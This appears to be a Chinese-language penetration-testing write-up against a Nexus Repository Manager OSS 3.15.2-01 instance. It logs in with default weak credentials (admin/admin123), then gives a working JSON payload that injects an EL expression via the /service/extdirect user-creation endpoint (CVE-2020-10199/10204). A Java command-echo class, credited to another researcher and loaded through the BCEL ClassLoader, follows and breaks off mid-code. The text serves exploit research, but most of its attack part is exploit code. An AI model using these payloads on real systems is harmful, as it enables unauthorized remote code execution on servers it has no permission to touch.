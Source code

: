 发现是Nexus Repository Manager，版本为OSS 3.15.2-01，历史漏洞有CVE-2020-10199、CVE-2020-10204

影响版本：
Nexus Repository Manager OSS/Pro 3.x <= 3.21.1

但发现都是后台的洞，需要登录才能打，测试一下弱口令admin、admin123发现成功进入后台。。。
后台api接口：`/#admin/system/api`
![](https://img-blog.csdnimg.cn/924592e9f1894d07b8e0530d6fb69347.png)

管理员利用点在`/service/extdirect`这里，新建用户/更新用户可以执行EL表达式，首先将NX-ANTI-CSRF-TOKEN添加到Header头中
使用exp：
```json
{"action":"coreui_User","method":"create","data":[{"userId":"test","version":"","firstName":"test","lastName":"test","email":"test@test.com","status":"active","roles":["$\\A{6*6}"],"password":"test"}],"type":"rpc","tid":123}
```
![](https://img-blog.csdnimg.cn/db319c10f95d432c8b68cc61a38ca0d9.png)

成功解析，尝试命令执行，但是发现反射的时候执行invoke方法失败了
最终使用`com.sun.org.apache.bcel.internal.util.ClassLoader`来加载bcel编码过后的类
参考Hu3sky师傅的回显代码
```java
public class Echo_WebContext {
    static {
        try {
            Thread thread = Thread.currentThread();
            java.lang.reflect.Field threadLocals = Thread.class.getDeclaredField("threadLocals");
            threadLocals.setAccessible(true);
            Object threadLocalMap = threadLocals.get(thread);
            Class threadLocalMapClazz = Class.forName("java.lang.ThreadLocal$ThreadLocalMap");
            java.lang.reflect.Field tableField = threadLocalMapClazz.getDeclaredField("table");
            tableField.setAccessible(true);
            Object[] objects = (Object[]) tableField.get(threadLocalMap);
            Class entryClass = Class.forName("java.lang.ThreadLocal$ThreadLocalMap$Entry");
            java.lang.reflect.Field entryValueField = entryClass.getDeclaredField("value");
            entryValueField.setAccessible(true);
            for (Object object : objects) {
                if (object != null) {
                    Object valueObject = entryValueField.get(object);
                    if (valueObject != null) {
                        if (valueObject.getClass().getName().equals("com.softwarementors.extjs.djn.servlet.ssm.WebContext")) {
                            java.lang.reflect.Field response = valueObject.getClass().getDeclaredField("response");
                            response.setAccessible(true);
                            Object shiroServletResponse = response.get(valueObject);
                            Class<?> Wrapper = shiroServletResponse.getClass().getSuperclass().getSuperclass();
                            Object statusResponse = Wrapper.getMethod("getResponse").invoke(shiroServletResponse);
                            Object response1 = Wrapper.getMethod("getResponse").invoke(statusResponse);
                            java.io.PrintWriter writer = (java.io.PrintWriter) response1.getClass().getMethod("getWriter").invoke(response1);

                            java.lang.reflect.Field request = valueObject.getClass().getDeclaredField("request");
                            request.setAccessible(true);
                            Object shiroServletRequest = request.get(valueObject);
                            Class<?> Wrapper2 = shiroServletRequest.getClass().getSuperclass().getSuperclass();
                            Object statusResponse2 = Wrapper2.getMethod("getRequest").invoke(shiroServletRequest);
                            Object request1 = Wrapper2.getMethod("getRequest").invoke(statusResponse2);
```